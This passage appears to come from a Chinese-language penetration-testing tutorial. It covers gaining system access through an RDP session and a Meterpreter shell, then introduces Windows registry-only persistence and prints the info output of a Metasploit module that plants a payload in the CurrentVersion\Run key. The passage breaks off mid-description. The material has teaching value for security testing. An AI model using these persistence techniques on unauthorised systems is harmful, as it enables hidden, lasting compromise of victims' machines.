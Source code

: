 当我们使用 RDP 会话重新登录时，我们看到一个新的会话已经在运行的处理程序上启动。我们能够与会话交互，并从 Meterpreter shell 获得系统访问权限：

![](img/dbf0a99b-45a3-4bde-89f9-df5488300aa5.png)

# 仅限 Windows 注册表的持久性

Windows 注册表是隐藏恶意代码的好地方。许多恶意软件和间谍软件使用这样的方法来隐藏和运行它们的有效负载。注册表的复杂性和注册表的系统访问级别使其成为一个很好的攻击向量。

我们将在当前运行的会话上运行以下模块，并尝试以系统级访问权限运行有效负载。模块的信息如下：

```
    msf exploit(registry_persistence) > info

    Name: Windows Registry Only Persistence
    Module: exploit/windows/local/registry_persistence
    Platform: Windows
    Privileged: No
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2015-07-01

    Provided by:
    Donny Maasland <donny.maasland@fox-it.com>

    Available targets:
    Id Name
    -- ----
    0 Automatic

    Basic options:
    Name   Current Setting Required Description
    ----   --------------- -------- -----------
    BLOB_REG_KEY     no  The registry key to use for storing the payload blob. (Default: random)
    BLOB_REG_NAME     no  The name to use for storing the payload blob. (Default: random)
    CREATE_RC  true    no  Create a resource file for cleanup
    RUN_NAME      no  The name to use for the 'Run' key. (Default: random)
    SESSION       yes  The session to run this module on.
    SLEEP_TIME  0    no  Amount of time to sleep (in seconds) before executing payload. (Default: 0)
    STARTUP  USER    yes  Startup type for the persistent payload. (Accepted: USER, SYSTEM)

    Payload information:

    Description:
    This module will install a payload that is executed during boot. It 
    will be executed either at user logon or system startup via the 
    registry value in "CurrentVersion\Run" (depending on privilege and 
    selected method). The payload will be installed completely in 
```